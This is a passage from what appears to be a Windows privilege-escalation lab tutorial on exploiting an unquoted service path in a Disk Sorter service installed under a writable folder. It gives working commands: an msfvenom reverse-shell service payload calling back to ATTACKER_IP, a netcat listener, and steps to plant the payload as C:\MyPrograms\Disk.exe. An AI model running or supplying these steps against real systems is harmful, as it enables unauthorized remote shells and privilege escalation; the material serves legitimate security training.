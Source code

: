 1. First, search for `C:\MyPrograms\Disk.exe`. If it exists, the service will run this executable.
2. If the latter doesn't exist, it will then search for `C:\MyPrograms\Disk Sorter.exe`. If it exists, the service will run this executable.
3. If the latter doesn't exist, it will then search for `C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe`. This option is expected to succeed and will typically be run in a default installation.

From this behavior, the problem becomes evident. If an attacker creates any of the executables that are searched for before the expected service executable, they can force the service to run an arbitrary executable.

While this sounds trivial, most of the service executables will be installed under `C:\Program Files` or `C:\Program Files (x86)` by default, which isn't writable by unprivileged users. This prevents any vulnerable service from being exploited. There are exceptions to this rule:
- Some installers change the permissions on the installed folders, making the services vulnerable.
- An administrator might decide to install the service binaries in a non-default path. If such a path is world-writable, the vulnerability can be exploited.

In our case, the Administrator installed the Disk Sorter binaries under `C:\MyPrograms`. By default, this inherits the permissions of the `C:\` directory, which allows any user to create files and folders in it. We can check this using `icacls`:

```cmd
C:\>icacls c:\MyPrograms
c:\MyPrograms NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
          BUILTIN\Administrators:(I)(OI)(CI)(F)
          BUILTIN\Users:(I)(OI)(CI)(RX)
          BUILTIN\Users:(I)(CI)(AD)
          BUILTIN\Users:(I)(CI)(WD)
          CREATOR OWNER:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```

The `BUILTIN\Users` group has `AD` and `WD` privileges, allowing the user to create subdirectories and files, respectively.

The process of creating an exe-service payload with `msfvenom` and transferring it to the target host is the same as before, so feel free to create the following payload and upload it to the server as before. We will also start a listener to receive the reverse shell when it gets executed:

```bash
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe

user@attackerpc$ nc -lvp 4446
```

Once the payload is in the server, move it to any of the locations where hijacking might occur. In this case, we will be moving our payload to `C:\MyPrograms\Disk.exe`. We will also grant `Everyone` full permissions on the file to make sure it can be executed by the service:

```cmd
C:\> move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe

C:\> icacls C:\MyPrograms\Disk.exe /grant Everyone:F
    Successfully processed 1 files.
```
